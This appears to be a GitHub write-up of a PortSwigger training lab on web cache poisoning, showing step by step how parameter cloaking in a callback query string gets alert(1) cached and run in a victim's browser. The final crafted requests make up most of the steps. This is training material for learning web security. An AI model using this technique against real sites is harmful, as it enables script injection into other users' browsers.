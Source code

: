 # Parameter cloaking

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome.

## To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes `alert(1)` in the victim's browser.

---

### step 1

send geolocate.js to repeter

![screenshot](images/lab7_geolocate_js_file_to_repeter.jpg)

### step2

send param minier to rails param miner cloaking scan

![screenshot](images/lab7_rails_param_cloaking_scan.jpg)

### step3

add _&utm_content=x;callback=akzldka&ipy1trc2=1_
final url _GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=akzldka&ipy1trc2=1_

![screenshot](images/lab7_utm_callaback_request.jpg)

### step4

payload:alert(1)
_GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=alert(1)_
send request many times to solve the lab

![screenshot](images/lab7_callback_payload.jpg)
